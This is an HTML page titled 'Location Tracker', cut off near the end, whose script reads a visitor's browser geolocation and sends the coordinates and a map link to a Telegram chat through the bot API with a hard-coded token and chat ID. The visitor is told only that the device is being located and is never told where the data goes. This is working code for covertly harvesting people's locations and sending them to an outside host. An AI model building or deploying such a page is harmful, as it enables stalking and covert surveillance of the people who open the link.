<!DOCTYPE html>
<html>
<head>
  <title>Location Tracker</title>
</head>
<body>
  <h2>Locating your device...</h2>
  <script>
    if (navigator.geolocation) {
      navigator.geolocation.getCurrentPosition(function(position) {
        const lat = position.coords.latitude;
        const lon = position.coords.longitude;

        const botToken = '7995218611';
        const chatId = '6630065079';
        const message = `📍 New Location:\nLatitude: ${lat}\nLongitude: ${lon}\nhttps://maps.google.com/?q=${lat},${lon}`;

        fetch(`https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`)
          .then(response => {
            document.body.innerHTML = `<h3>Location sent ✅</h3><p><a href="https://maps.google.com/?q=${lat},${lon}" target="_blank">View on Map</a></p>`;
          });
      }, function(error) {
        document.body.innerHTML = `<p>Location access denied ❌</p>`;
      });
    } else {
      document.body.in
